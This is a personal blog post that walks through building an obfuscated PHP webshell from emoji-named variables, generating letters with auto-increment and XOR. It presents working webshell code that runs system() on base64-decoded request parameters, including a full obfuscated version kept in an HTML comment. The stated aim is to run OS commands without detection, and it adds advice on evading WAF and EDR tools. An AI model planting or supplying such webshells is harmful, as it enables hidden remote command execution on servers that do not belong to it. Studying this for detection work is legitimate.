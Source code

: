 +++
title = 'Emoji Webshell 🐚'
description = "Create obfuscated webshell using emoji in php."
date = 2022-09-22T15:33:41+08:00
draft = false
tags = [ "php", "development" ]
# categories = [ "development" ]
# author =  ["Me"]
# [cover]
# image = "img/1.png"
+++

## Introduction

Last time I tried to push myself on learning how to construct a webshell without using any alphabet in PHP. There are a lot of techniques that can be used such as base operation, auto increment, XOR and etc. This [blog](https://websec-readthedocs-io.translate.goog/zh/latest/language/php/webshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=zh-CN) have decent techniques that can be used for obfuscation.
{{< figure src="/img/posts/emoji_webshell/1.png" >}}


## Objective of obfuscated webshell

The objective of obfuscation webshell is simple, execute os command without detection. Im assuming the server's configuration is not disabling php functions like `system()`, `passthru()`, `shell_exec()` and other functions that can execute OS command. If the server disabling those function, there will be another topic to bypass the protection. In this blog, we are going to use base64 as encoding, well, it is not recommended in the real world because WAF and EDR pretty good handling base64, so consider to use other method to encode/encrypt when the payload. Anyway, below is my simple webshell:

```php
<?php

$a = $_REQUEST_[4] ? base64_decode($_REQUEST[4]) : 'whoami'; // [1]
@system($a); // [2]
```
- `[1]`: try to check if `$_REQUEST[4]` is empty or not, if not empty, decode it using base64 and store it in `$a` variable. Otherwise, it'll store `whoami` instead.
- `[2]`: Execute command from variable `$a`.

The idea is simple. The crucial part is how to generate alphabet without using alphabet at all. One of my idea is by using XOR and auto increment operation to generate alphabet and numbers, and set it to emoji as variable. Below are how I use auto increment to generate alphabets.

<!-- ```php
<?php

$_=[];                      // $_ = [];
$_=@"$_";                   // $_ = "Array";
$__=("_"=="_")+("_"=="_");  // $__ = 1 + 1;
$_=@$_[++$__];              // $_ = $_[3] // "Array"[3]
``` -->
{{< figure src="/img/posts/emoji_webshell/2.png" caption="Figure 1: Variable iteration" width="55%" align="center" >}}

Based on Figure 1:
- line 3: Set `$_` variable to an array.
- line 4: Convert array to "Array" in string datatype.
- line 5: `("_" == "_")` is comparing two string, if true it will return 1. `("_" == "_") + ("_" == "_")`, then `(1) + (1)` and becomes 2.
- line 6: `@$_[++$__]` means `@$_[3]`, so it will takes 4th argument from "Array" which is "a".
- line 8-33: Set emoji to 'a' until 'z'. When we increment variable that contains "a", it will become "b" and so on.

After constructing alphabet, then we can use the certain function like `base64_decode()`, `$_POST[]` and `system()`. Noted that we cannot use [`eval()`](https://www.php.net/manual/en/function.eval.php) as variable since it is a constructor, not a [variable function](https://www.php.net/manual/en/functions.variable-functions.php).

{{< figure src="/img/posts/emoji_webshell/3.png" caption="Figure 2: Contruct emoji operation" width="100%" align="center" >}}

Based on Figure 2:
- line 35-37: increment the number.
- line 38: set variable `$👿` to "base6".
- line 39-40: decrement the number.
- line 41: construct the word "base64_decode". If you notice, we are using XOR operation to this line to contruct an ascii underscore "_" by xoring hastag with pipe(I would say) `"#" ^ "|"`
- line 43: set variable `$💀` to "system".
- line 44: set variable `$🥳` as "_POST" by using XOR operation to create underscore and capital letter since we do not create capital letter at all.
- line 45: check if `$_POST[4]` is set, if set, it will decode the parameter, otherwise set it to "whoami" to variable `$🤯`.
- line 46: execute `system()` with given command.

### Full source code

You can get the full source code at my [github](https://github.com/nightfury99/php-emoji-webshell/blob/main/webshell.php).

{{< figure src="/img/posts/emoji_webshell/4.png" caption="Figure 3: Full source code" width="100%" align="center" >}}

<!-- ```php
<?php

$_=[];                      // $_ = [];
$_=@"$_";                   // $_ = "Array";
$__=("_"=="_")+("_"=="_");  // $__ = 1 + 1;
$_=@$_[++$__];              // $_ = $_[3] // "Array"[3]

$🌏=$_++; // a
$🤮=$_++; // b
$🍪=$_++; // c
$🫣=$_++; // d
$🧁=$_++; // e
$🎂=$_++; // f
$🥃=$_++; // g
$🍔=$_++; // h
$🌘=$_++; // i
$🌗=$_++; // j
$🌖=$_++; // k
$🌕=$_++; // l
$🌒=$_++; // m
$🌓=$_++; // n
$🌔=$_++; // o
$🌰=$_++; // p
$🍘=$_++; // q
$🥗=$_++; // r
$🥥=$_++; // s
$🍑=$_++; // t
$🍋=$_++; // u
$🧇=$_++; // v
$🌮=$_++; // w
$🍕=$_++; // x
$🥯=$_++; // y
$🍣=$_;   // z

$__++; // 4
$__++; // 5
$__++; // 6
$👿=$🤮.$🌏.$🥥.$🧁.$__; // base6
$__--; // 5
$__--; // 4
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁; // base64_decode

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒; // system
$🥳=("#"^"|").($🍘^"#").($🎂^"#").($🥗^"#").($🧇^"#").($🎂^"#").($🌰^"#").($🌮^"#"); // _REQUEST
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘; // $_REQUEST[4] ? base64_decode($_REQUEST[4]) : "whoami"
@$💀($🤯); // @system("command")
``` -->

## Summary

Now, we already learnt how to use XOR and auto increment operation to generate alphabet and numbers. These methods allow us to construct webshell using emoji. I never use this in real world scenario, but if you have your own version and want share, do let me know. 🌵